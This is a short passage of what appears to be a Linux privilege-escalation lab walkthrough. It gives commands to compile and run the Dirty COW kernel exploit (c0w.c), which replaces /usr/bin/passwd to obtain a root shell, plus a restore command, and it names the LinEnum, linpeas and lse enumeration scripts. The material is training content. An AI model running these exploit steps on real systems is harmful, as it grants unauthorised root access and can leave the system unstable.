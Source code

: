 
## Task20:  Kernel Exploits:

### Kernel exploits can leave the system in an `unstable state`, which is why you should only run them as a `last resort`.

#### Step1: 
Used `Linux Exploit Suggester 2 tool` to identify potential kernel exploits on the current system.
```
$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w

$ ./c0w
```
#### Step2:
Once the exploit completes, run /usr/bin/passwd to gain a root shell:
```
$ /usr/bin/passwd
```

### NOTE:
Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!
```
$ mv /tmp/bak /usr/bin/passwd
```

## Task21: Privilege Escalation Scripts:

Use: LinEnum.sh, linpeas.sh, lse.sh

